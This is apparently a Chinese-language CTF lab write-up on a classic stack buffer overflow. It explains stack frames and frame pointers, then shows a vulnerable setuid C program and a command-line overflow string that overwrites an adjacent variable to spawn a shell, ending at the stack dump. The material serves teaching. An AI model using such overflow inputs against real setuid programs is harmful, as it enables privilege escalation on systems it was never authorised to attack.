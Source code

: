 其中 48处的s是指字符数组s，00处的s指保存在栈上的寄存器，r指的是返回地址，我们的目标就是覆盖返回地址，使函数在执行ret指令时，将我们覆盖的返回地址的值pop弹出到eip，从而改变程序的执行流。

堆栈是一块保存数据的连续内存。 一个名为堆栈指针(SP)的寄存器指向堆栈的顶部。 堆栈的底部在一个固定的地址。 堆栈的大小在运行时由内核动态地调整。 CPU实现指令 PUSH和POP， 向堆栈中添加元素和从中移去元素。 堆栈由逻辑堆栈帧组成。 当调用函数时逻辑堆栈帧被压入栈中， 当函数返回时逻辑 堆栈帧被从栈中弹出。 堆栈帧包括函数的参数， 函数的局部变量， 以及恢复前一个堆栈 帧所需要的数据， 其中包括在函数调用时指令指针(IP)的值。 堆栈既可以向下增长(向内存低地址)也可以向上增长， 这依赖于具体的实现。 在我 们的例子中， 堆栈是向下增长的。 这是很多计算机的实现方式， 包括Intel， Motorola， SPARC和MIPS处理器。 堆栈指针(SP)也是依赖于具体实现的。 它可以指向堆栈的最后地址， 或者指向堆栈之后的下一个空闲可用地址。 在我们的讨论当中， SP指向堆栈的最后地址。 除了堆栈指针(SP指向堆栈顶部的的低地址)之外， 为了使用方便还有指向帧内固定 地址的指针叫做帧指针(FP)。 有些文章把它叫做局部基指针(LB-local base pointer)。 从理论上来说， 局部变量可以用SP加偏移量来引用。 然而， 当有字被压栈和出栈后， 这 些偏移量就变了。 尽管在某些情况下编译器能够跟踪栈中的字操作， 由此可以修正偏移 量， 但是在某些情况下不能。 而且在所有情况下， 要引入可观的管理开销。 而且在有些 机器上， 比如Intel处理器， 由SP加偏移量访问一个变量需要多条指令才能实现。 因此， 许多编译器使用第二个寄存器， FP， 对于局部变量和函数参数都可以引用， 因为它们到FP的距离不会受到PUSH和POP操作的影响。 在Intel CPU中， BP(EBP)用于这 个目的。 在Motorola CPU中， 除了A7(堆栈指针SP)之外的任何地址寄存器都可以做FP。 考虑到我们堆栈的增长方向， 从FP的位置开始计算， 函数参数的偏移量是正值， 而局部 变量的偏移量是负值。 当一个例程被调用时所必须做的第一件事是保存前一个FP(这样当例程退出时就可以 恢复)。 然后它把SP复制到FP， 创建新的FP， 把SP向前移动为局部变量保留空间。 这称为 例程的序幕(prolog)工作。 当例程退出时， 堆栈必须被清除干净， 这称为例程的收尾 (epilog)工作。 Intel的ENTER和LEAVE指令， Motorola的LINK和UNLINK指令， 都可以用于 有效地序幕和收尾工作。

**步骤1：** 程序源代码

```c
void vuln(int tmp, char *str) {
    int win = tmp;
    char buf[64];
    strcpy(buf, str);
    dump_stack((void **) buf, 23, (void **) &tmp);
    printf("win = %d\n", win);
    if (win == 1) {
        execl("/bin/sh", "sh", NULL);
    } else {
        printf("Sorry, you lose.\n");
    }
    exit(0);
}
int main(int argc, char **argv) {
    if (argc != 2) {
        printf("Usage: stack_overwrite [str]\n");
        return 1;
    }
uid_t euid = geteuid();
    setresuid(euid, euid, euid);
    vuln(0, argv[1]);
    return 0;
}
```

**步骤2：** 首先，我们打开平台，点击操作机，点击通过web ssh登录进入控制台。

**步骤3：** 我们输入ls，查看当前文件夹下有三个文件，我们尝试cat flag，发现权限缺失，所以我们尝试利用overflow1-3948d17028101c40的漏洞进行攻击。

**步骤4：** 首先，我们的输入是程序的命令行参数。第二，如果我们可以设置win变量等于1，我们会得到一个shell！ 让我们进行cat flag。

```assembly
$ ./overflow1-3948d17028101c40 $(python -c 'print "A"*64 + "B"')
Stack dump:
0xffa81994: 0xffa82845 (second argument)
0xffa81990: 0x00000000 (first argument)
0xffa8198c: 0x0804870f (saved eip)
0xffa81988: 0xffa819b8 (saved ebp)
0xffa81984: 0xf779c000
0xffa81980: 0xf76a8a00
0xffa8197c: 0x00000042
0xffa81978: 0x41414141
0xffa81974: 0x41414141
0xffa81970: 0x41414141
0xffa8196c: 0x41414141
0xffa81968: 0x41414141
0xffa81964: 0x41414141
0xffa81960: 0x41414141
0xffa8195c: 0x41414141
```